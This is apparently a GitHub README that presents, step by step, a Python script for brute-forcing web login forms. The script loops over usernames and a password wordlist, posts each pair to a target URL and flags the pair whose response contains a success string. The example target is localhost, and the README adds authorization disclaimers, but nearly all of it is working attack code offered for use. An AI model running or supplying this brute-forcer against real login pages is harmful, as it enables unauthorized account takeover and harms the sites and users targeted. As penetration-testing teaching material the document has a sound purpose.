 # Web-Login-Form-Brute-Forcing

## _Note:_
 _A web application you are authorized to test is required to test this script._
 <br>
 <br>

### Steps to perform Brute Forcing on Login Pages using the provided script:

#### 1. Import required libraries:
    import requests
    import sys
<br>

#### 2. Set up target URL and parameters:
    target = "http://127.0.0.1:5000"
    usernames = ["admin", "user", "test"]
    passwords = "top-100-list.txt"
    needle = "Welcome Back"
<br>

#### 3. Create a loop to iterate through usernames:
    for username in usernames:

<br>

#### 4. Open and read the password file:
    with open(passwords, "r") as passwords_list:

<br>

#### 5. Create a nested loop to iterate through passwords:
    for password in passwords_list:
                password = password.strip("\n").encode()

<br>

#### 6. Display current attempt:
    sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
                sys.stdout.flush()

<br>

#### 7. Send POST request to the target URL:
    r = requests.post(target, data={"username": username, "password": password})

<br>

#### 8. Check if login was successful:
    if needle.encode() in r.content:
                    sys.stdout.write("\n")
                    sys.stdout.write("\t[>>>>>>] Valid Password '{}' found for user '{}'!".format(password.decode(), username))
                    sys.exit()

<br>

#### 9. Handle case when no password is found:
    sys.stdout.flush()
            sys.stdout.write("\n")
            sys.stdout.write("\tNo Password Found for '{}'!".format(username))
            sys.stdout.write("\n")

<br>

_This script provides a basic framework for brute-forcing web login forms._ 

_However, it's important to note that using such scripts without permission is illegal and unethical._

_Always ensure you have proper authorization before testing security measures._
